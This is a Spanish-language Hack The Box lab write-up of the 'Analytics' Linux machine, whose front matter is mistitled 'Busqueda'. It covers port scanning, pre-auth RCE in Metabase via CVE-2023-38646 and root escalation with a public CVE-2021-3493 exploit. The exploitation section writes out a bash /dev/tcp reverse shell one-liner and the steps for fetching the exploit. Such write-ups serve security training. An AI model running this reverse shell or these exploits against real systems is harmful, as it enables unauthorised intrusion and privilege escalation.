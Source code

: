 ```yaml
---
layout: single
title: Busqueda - Machines - Hack The Box
excerpt: "Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE)."
date: 2023-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-analytics/analytics.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - cve-2023-38646
  - cve-2021-3493
  - rce
  
---
```


![](/assets/images/htb-writeup-analytics/analytics_logo.png)

Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE).

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
 -	22 de SSH 
 -	80 de HTTP

![](/assets/images/htb-writeup-analytics/analytics2.png)

Observamos un dominio y un subdominio que debemos agregar a nuestro archivo /etc/hosts.

![](/assets/images/htb-writeup-analytics/analytics3.png)

Agregamos los dominios y subdominios identificados.

 -	Analytics.htb

 -	Data.analytics.htb

![](/assets/images/htb-writeup-analytics/analytics4.png)

Navegamos sobre el sitio web e identificamos un portal de inicio de sesión donde ejecuta Metabase la cual es una herramienta de inteligencia empresarial de código abierto que le permite crear gráficos y paneles utilizando datos de una variedad de bases de datos y fuentes de datos. 

![](/assets/images/htb-writeup-analytics/analytics5.png)

# 2.	Explotación

Buscamos vulnerabilidades asociadas a esta herramienta e identificamos el CVE-2023-38646 el cual permite un RCE.

 -	PoC: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

La siguiente carga útil nos permitirá un RCE, para ello vamos a necesitar identificar el token el cual vamos a encontrar en la ruta /api/session/properties.

También vamos a necesitar codificar en base 64 un rever Shell.

 -	bash -i >&/dev/tcp/<IP>/<PORT> 0>&1

![](/assets/images/htb-writeup-analytics/analytics6.png)

Debemos poner nuestro equipo atacante a la escucha por el puerto del reverse Shell y enviar la solicita a través de BurSuite.

![](/assets/images/htb-writeup-analytics/analytics7.png)

Vamos a obtener un Shell como usuario metabase.

![](/assets/images/htb-writeup-analytics/analytics8.png)

Luego de un buen tiempo, ejecutamos el comando “env” vamos a identificar la contraseña del usuario “metalytics”.

![](/assets/images/htb-writeup-analytics/analytics9.png)

Usamos las credenciales obtenidas para iniciar sesión por SSH.

![](/assets/images/htb-writeup-analytics/analytics10.png)

De esta manera obtenemos nuestra primera flag.

![](/assets/images/htb-writeup-analytics/analytics11.png)

# 3.	Escalada de privilegios

Des pues de un tiempo buscando una forma de escalar privilegios, identificamos el siguiente exploit disponible.

-	Expoit: https://github.com/briskets/CVE-2021-3493
  
Vamos a clonarlo a nuetstra maquina y ejecutamos el siguiente comando para generar nuestro script.

-	gcc exploit.c -o exploit
  
Luego vamos a levantar un servidor en nuestra maquina atacante para descargar el explot a la maquina víctima.

![](/assets/images/htb-writeup-analytics/analytics12.png)

Descargamos nuestro exploit y otorgamos permisos de ejecución.

![](/assets/images/htb-writeup-analytics/analytics13.png)

Ejecutamos nuestro exploit, el cual permitirá elevar privilegios a root. A hora podemos leer nuestra segunda flag.

![](/assets/images/htb-writeup-analytics/analytics14.png)




